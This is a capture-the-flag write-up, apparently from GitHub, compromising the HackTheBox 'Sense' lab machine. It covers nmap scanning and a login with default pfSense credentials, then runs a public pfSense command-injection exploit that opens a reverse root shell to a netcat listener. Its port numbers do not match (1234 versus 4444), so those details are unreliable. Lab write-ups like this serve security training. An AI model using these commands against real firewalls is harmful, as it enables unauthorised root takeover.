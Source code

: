 # SENSE

## NMAP

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/sense]
└─$ nmap 10.10.10.60
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 05:35 EDT
Nmap scan report for 10.10.10.60
Host is up (0.18s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 16.37 seconds
                                                                                       
┌──(kali㉿kali)-[~/Downloads/hackthebox/sense]
└─$ nmap 10.10.10.60 -p 80,443 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 05:37 EDT
Nmap scan report for 10.10.10.60
Host is up (0.17s latency).

PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

## WEBSITE

![](https://github.com/Leo-2807/Writeups/blob/main/images/sense1.png)

### DIRBUSTER

![](https://github.com/Leo-2807/Writeups/blob/main/images/sense4.png)

### SYSTEM-USERS.TXT

![](https://github.com/Leo-2807/Writeups/blob/main/images/sense2.png)

### LOGIN

Logging in using the creds `username:rohit` and `password:pfsense` which is the default password for pfsense

![](https://github.com/Leo-2807/Writeups/blob/main/images/sense3.png)

## EXPLOIT

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/sense]
└─$ searchsploit pfsense 2.1.3   
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command | php/webapps/43560.py
----------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
                                                                                       
┌──(kali㉿kali)-[~/Downloads/hackthebox/sense]
└─$ searchsploit -m php/webpass/43560.py  
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/Downloads/hackthebox/sense/43560.py

┌──(kali㉿kali)-[~/Downloads/hackthebox/sense]
└─$ python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.5 --lport 1234 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

## SHELL

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/sense]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.60] 43734
sh: can't access tty; job control turned off
# whoami
root
```

Since we are already root we don't have to do anything and can read the root.txt and user.txt very easily
